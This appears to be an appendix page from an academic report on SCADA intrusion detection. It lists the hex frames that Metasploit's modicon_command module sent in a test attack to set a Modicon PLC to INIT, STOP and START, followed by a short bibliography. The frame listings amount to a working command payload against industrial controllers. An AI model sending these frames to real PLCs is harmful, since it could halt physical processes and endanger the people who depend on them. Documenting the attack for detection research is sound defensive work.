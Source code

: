 \documentclass[11pt,a4paper]{article}
\begin{document}
The Metasploit Framework is comprised of various modules. In the test
attack case, the modicon\_command module was used.

The frames sent in order to set the PLC to one of the following states:

INIT

\begin{verbatim}
00 5a 00 02
00 5a 00 01 00
00 5a 00 0a 00 + T' * 0xf9
00 5a 00 03 00
00 5a 00 03 04
00 5a 00 04
00 5a 00 01 00
00 5a 00 0a 00
00 5a 00 04
00 5a 00 04
00 5a 00 20 00 13 00 00 00 00 00 64 00
00 5a 00 20 00 13 00 64 00 00 00 9c 00
00 5a 00 20 00 14 00 00 00 00 00 64 00
00 5a 00 20 00 14 00 64 00 00 00 f6 00
00 5a 00 20 00 14 00 5a 01 00 00 f6 00
00 5a 00 20 00 14 00 5a 02 00 00 f6 00
00 5a 00 20 00 14 00 46 03 00 00 f6 00
00 5a 00 20 00 14 00 3c 04 00 00 f6 00
00 5a 00 20 00 14 00 32 05 00 00 f6 00
00 5a 00 20 00 14 00 28 06 00 00 0c 00
00 5a 00 20 00 13 00 00 00 00 00 64 00
00 5a 00 20 00 13 00 64 00 00 00 9c 00
00 5a 00 10 43 4c 00 00 0f
USER-714E74F21B
META-SPLOITMETA
00 5a 01 04
00 5a 01 50 15 00 01 0b
00 5a 01 50 15 00 01 07
00 5a 01 12
00 5a 01 04
00 5a 01 12
00 5a 01 04
00 5a 00 02
00 5a 00 58 01 00 00 00 00 ff ff 00 70
00 5a 00 58 07 01 80 00 00 00 00 fb 00
00 5a 01 04
00 5a 00 58 07 01 80 00 00 00 00 fb 00
\end{verbatim}

\newpage

STOP

\begin{verbatim}
00 5a 01 41 ff 00
00 5a 01 04
\end{verbatim}

START

\begin{verbatim}
00 5a 01 40 ff 00
00 5a 01 04
\end{verbatim}

\newpage

\section*{Bibliography}\label{bibliography}

{[}1{]}B. Zhu, ``SCADA-specific Intrusion Detection/Prevention Systems:
A Survey and Taxonomy,'' \emph{Network}, pp. 1--16, 2010 {[}Online{]}.
Available:
\url{http://www.eecs.berkeley.edu/Pubs/TechRpts/2014/EECS-2014-34.pdf}

{[}2{]}B. Zhu, A. Joseph, and S. Sastry, ``A taxonomy of cyber attacks
on SCADA systems,'' \emph{Proceedings - 2011 IEEE International
Conferences on Internet of Things and Cyber, Physical and Social
Computing, iThings/CPSCom 2011}, pp. 380--388, 2011.
\end{document}
